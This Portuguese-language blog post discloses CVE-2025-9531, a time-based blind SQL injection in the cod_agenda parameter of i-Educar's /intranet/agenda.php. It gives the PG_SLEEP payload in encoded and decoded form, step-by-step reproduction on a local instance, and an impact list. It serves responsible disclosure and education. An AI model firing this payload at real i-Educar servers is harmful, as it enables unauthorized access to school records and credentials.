 # CVE-2025-9531


Como encontrei uma **Injeção Blind de SQL baseada em tempo** no i-Educar (com atraso real e PoC).

<!--more-->

> ***🇺🇸 Read in [English](http://karinagante.github.io/cve-2025-9531/).***

## CVE-2025-9531

### Introdução

<p align="justify">Ao me aprofundar no projeto Open-Source <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b>, descobri uma vulnerabilidade crítica de injeção de SQL (Blind), baseada em tempo, no parâmetro <b>cod_agenda</b> do endpoint <b>agenda.php</b>. </br> Essa falha permite que invasores executem consultas SQL arbitrárias silenciosamente no banco de dados de back-end, colocando em risco a confidencialidade, a integridade e a disponibilidade dos dados. </br> Após validar o problema usando um payload que causou atrasos mensuráveis ​​na resposta do servidor, relatei o problema de forma responsável, e o problema foi oficialmente atribuído como <b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b>. </p>

### O que é a CVE-2025-9531?

<p align="justify"><b><a href="https://www.cve.org/CVERecord?id=CVE-2025-9531" target=_blank>CVE-2025-9531</a></b> é uma vulnerabilidade de injeção de SQL no endpoint <b>/intranet/agenda.php</b> do aplicativo <b><a href="https://github.com/portabilis/i-educar" target=_blank>i-Educar</a></b>. </br> O parâmetro vulnerável é <b>cod_agenda</b>, que não possui validação de entrada adequada. </br> Isso possibilita a injeção de consultas SQL personalizadas, incluindo funções <code>PG_SLEEP()</code> que introduzem atrasos de tempo, confirmando a falha por meio de comportamento baseado em tempo. </p>

### Detalhes Técnicos

➤ **Endpoint vulnerável** `/intranet/agenda.php`

➤ **Parâmetro afetado:** `cod_agenda`

> ➤ **Payload Utilizado (Codificado)** 
> ```sql
>%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
>```

> ➤ **Payload Utilizado (Decodificado)** 
> ```sql
>' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
>```

### Proof of Concept (PoC)

Para reproduzir a vulnerabilidade:

➤ Acesse o endpoint vulnerável e clique em **"Novo Compromisso"**

➤ Preencha os campos obrigatórios e clique em **"Salvar"**

➤ O sistema redireciona para uma URL como:

```URL
http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283
```
<br>
➤ Agora, modifique o parâmetro `cod_agenda` com o payload:

```URL
/intranet/agenda.php?cod_agenda=2' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
```
> <p align="justify">O servidor levará 5 segundos para responder, confirmando que a consulta SQL foi executada com sucesso.</p>

<p align="center">
<img src="/images/CVE-2025-9531/PoC1.png"><br>
</p>

{{< admonition tip Report >}}
Você pode acessar o relatório completo e ver o passo a passo completo aqui:

{{< fa-icon regular github >}}
***[Relatório CVE-2025-9531](https://github.com/KarinaGante/KG-Sec/blob/main/CVEs/Scada-LTS/CVE-2025-9531.md)***
{{< /admonition >}}

### Impacto

Essa vulnerabilidade pode ser explorada para:

- Acessar dados confidenciais armazenados no banco de dados;
- Enumerar esquemas, tabelas e colunas do banco de dados;
- Modificar, excluir ou inserir registros arbitrários;
- Roubar credenciais de usuários e informações pessoais;
- Executar negação de serviço (DoS) acionando longos atrasos nas consultas;
- Em alguns casos, escalar para Execução Remota de Código (RCE).

### Fontes Oficiais

A falha foi reportada eticamente e atribuída como:

{{< admonition important Referências>}} 
{{< fa-icon regular shield >}} 
***[CVE-2025-9531 no CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-9531)***

{{< fa-icon regular database >}} 
***[Entrada no VulDB](https://vuldb.com/?id.321550)***
{{< /admonition >}}

### Conclusão

<p align="justify">Ataques de injeção de SQL continuam sendo uma das ameaças mais críticas a aplicações web, especialmente quando silenciosos e baseados em tempo. Esta descoberta prova como um único parâmetro não validado pode comprometer todo o banco de dados por trás de uma plataforma. </br></br> Se você é desenvolvedor ou analista de segurança, fique atento: <b>mesmo endpoints pequenos e aparentemente inofensivos podem esconder falhas perigosas.</b></p>

## Créditos

***Descoberto com💜 por [Karina Gante](https://karinagante.github.io/).*** 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

> ***Membro Oficial do [CVE-Hunters](https://www.cvehunters.com/)🏹***
